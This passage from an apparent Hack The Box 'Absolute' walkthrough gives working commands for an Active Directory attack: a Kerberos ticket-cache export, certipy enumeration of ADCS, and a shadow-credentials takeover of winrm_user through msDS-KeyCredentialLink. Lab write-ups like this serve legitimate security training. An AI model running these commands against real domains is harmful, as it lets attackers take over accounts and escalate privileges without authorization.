 ```bash
export KRB5CCNAME=/home/hokage/HTB/Absolute/m.lovegod.ccache

```

![image49](../resources/ba69f46549ed48259cf9298f44a208d0.png)

**<u>Step 3 - Shadow credentials - Winrm_user</u>**

<u>Option 1 - Certipy:</u>

- At this point, we should have GenericWrite over the winrm_user , so we first check if ADCS is installed, using certipy:

```bash
certipy find -k -no-pass -u absolute.htb/m.lovegod@dc.absolute.htb -dc-ip 10.129.229.59 -target dc.absolute.htb

```

![image50](../resources/8baea85a585c41f9991b0890c714a607.png)

- It seems like ADCS is indeed installed on the system. Since we have GenericWrite and ADCS is installed, we can overwrite the **msDS-KeyCredentialLink** attribute of **winrm_user**, which is vital for the shadow credential attack, and get a TGT for this user.

```bash
certipy shadow auto -k -no-pass -u absolute.htb/m.lovegod@dc.absolute.htb -dc-ip 10.129.229.59 -target dc.absolute.htb -account winrm_user

```
